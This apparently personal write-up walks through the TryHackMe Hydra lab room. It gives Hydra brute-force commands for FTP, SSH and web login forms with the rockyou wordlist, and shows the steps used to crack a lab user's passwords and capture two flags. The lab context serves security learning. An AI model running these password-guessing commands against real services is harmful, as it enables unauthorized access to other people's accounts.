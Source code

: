 # [Hydra from TryHackMe](https://tryhackme.com/room/hydra)

## Task 1 - Hydra Introduction

uses and installation

## Task 2 - Using Hydra

* **ftp bruteforcing :** `hydra -l user -P passlist.txt ftp://$MACHINE_IP`

* **ssh bruteforcing :** `hydra -l <username> -P <full path to pass> $MACHINE_IP -t 4 ssh`

* **POST web form :** `hydra -l <username> -P <wordlist> $MACHINE_IP http-post-form "/<loginURL>:username=^USER^&password=^PASS^:F=incorrect" -V`

for the wordlists, i used ***rockyou.txt***. in kali, it is present in `/usr/share/wordlists/rockyou.txt.gz`.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

	it is given that the username is molly. therefore, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

	![bruteforcing the login page](/assets/thm/hydra/hydra1.png)

	the ***flag*** then appears with some disney background idk xD

	![getting the flag](/assets/thm/hydra/hydra2.png)

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

	continuing, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP -t 4 ssh`

	then after ssh-ing into molly's system using the password, the ***flag*** is present in `flag2.txt` right in the home directory

	![the bruteforce, the access and the flag](/assets/thm/hydra/hydra3.png)

real nice room.
